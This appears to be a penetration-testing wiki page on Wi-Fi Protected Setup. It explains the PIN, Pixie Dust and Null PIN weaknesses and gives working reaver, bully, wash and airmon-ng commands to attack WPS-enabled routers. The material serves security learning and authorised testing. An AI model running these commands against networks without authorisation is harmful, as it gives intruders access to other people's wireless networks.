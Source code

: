 # WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

> [!TIP]
> Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.

Below are some known attacks on Wi-Fi Protected Setup (WPS):

* PIN Brute-Force: Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* Pixie Dust: This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* PIN Revelation: Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* Access Point Enumeration: Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

Most WPS attacks mentionned below can be conducted using [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) (Bash) or [wifite2](https://github.com/derv82/wifite2) (Python).

> [!TIP]
> Monitor mode can be activated automatically with these tools. The [monitor](#monitor-mode) section would not needed then.

> [!CAUTION]
> Some of the commands listed in this section may require high privileges to run. Containers would also need high privileges on a host.


There are three main methods for setting up a connection using WPS:

* Push Button Configuration (PBC): Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* PIN based Configuration: Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* Near Field Communication Configuration: In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within a wireless device's range, switch the mode to "Monitor."

::: tabs


=== UNIX-like


The following native commands can be used to have a capable network interface in monitor mode.

```bash
# view wireless interfaces and check their current mode.
iwconfig

# disable a network interface
ifconfig "$INTERFACE" down

# change the interface mode to monitor
iwconfig "$INTERFACE" mode monitor

# re-enable your network interface.
ifconfig "$INTERFACE" up
```


=== Aircrack-ng


With [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, the following commands can be used.

```bash
# list all your network interfaces.
airmon-ng

# stop interfering network processes
arimon-ng check kill

# start a network interface in monitor mode
airmon-ng start "$INTERFACE"
```



:::


### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) is used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.

```bash
wash -i "$INTERFACE"
```

### PIN Brute-Force

In 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that made PIN-based WPS vulnerable to brute-force attacks. A successful exploitation of this flaw would grant unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Two main tools are now available for conducting this attack: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust

In 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he dubbed "Pixie Dust". It specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a randomization deficiency during the generation of the "E-S1" and "E-S2" "secret" nonces. Knowing these nonces, the PIN can be retrieved in a matter of minutes. 

A tool called [pixiewps](https://github.com/wiire-a/pixiewps) was developed, and a new version of [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) was created to automate the attack.

Check [this list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin

Some poorly implemented systems allowed the use of a "Null" PIN for connections. [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) can conduct the attack, whereas [Bully](https://github.com/aanarchyy/bully) lacks this specific functionality.

```bash
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```
